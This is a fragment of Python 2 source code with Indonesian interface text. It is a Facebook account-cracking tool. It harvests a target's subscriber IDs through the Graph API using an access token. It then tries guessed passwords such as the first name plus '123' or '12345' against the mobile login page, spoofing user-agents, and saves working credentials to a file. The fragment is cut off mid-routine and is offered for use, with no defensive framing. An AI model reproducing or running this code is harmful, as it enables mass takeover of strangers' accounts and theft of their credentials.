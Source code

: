		try:
			pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			sp = json.loads(pok.text)
			print "\033[0;97m   •\033[0;97m Nama \033[0;97m:\033[0;97m "+sp["name"]
		except KeyError:
			print "\033[0;97m   ! ID public/teman tidak ada"
			raw_input("\n\033[1;97m   < \033[0;97mKembali \033[0;97m>")
			crack_follow()
		except requests.exceptions.ConnectionError:
			print '\033[0;97m   ! Tidak ada koneksi'
			Exit()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?limit=999999&access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif keak =="0":
		menu()
	else:
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_follow()
	
	print '\033[0;97m   • \033[0;97mJumlah ID\033[0;97m :\033[0;97m '+str(len(id))
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	
### MAIN FOLLOW ###
	def main(arg):
		global CP,oks
		em = arg
		try:
			os.mkdir('done')
		except OSError:
			pass
		try:
			an = requests.get('https://graph.facebook.com/'+em+'/?access_token='+toket)
			v = json.loads(an.text)
			pr = v['first_name'].lower()+'123'
			rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pr, "login" : "submit"}, headers = { "user-agent" : "Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"})
			xo = rex.content
			if 'mbasic_logout_button' in xo or 'save-device' in xo:
				print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pr
				oke = open('done/follow.txt', 'a')
				oke.write('\n   [OK] '+em+' • '+pr)
				oke.close()
				oks.append(em)
			else :
				if 'checkpoint' in xo:
					print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pr
					cek = open('done/follow.txt', 'a')
					cek.write('\n   [CP] '+em+' • '+pr)
					cek.close()
					CP.append(em)
				else:
					pr2 = v['first_name'].lower()+'12345'
					rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pr2, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36"})
					xo = rex.content
					if 'mbasic_logout_button' in xo or 'save-device' in xo:
						print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pr2
						oke = open('done/follow.txt', 'a')
						oke.write('\n   [OK] '+em+' • '+pr2)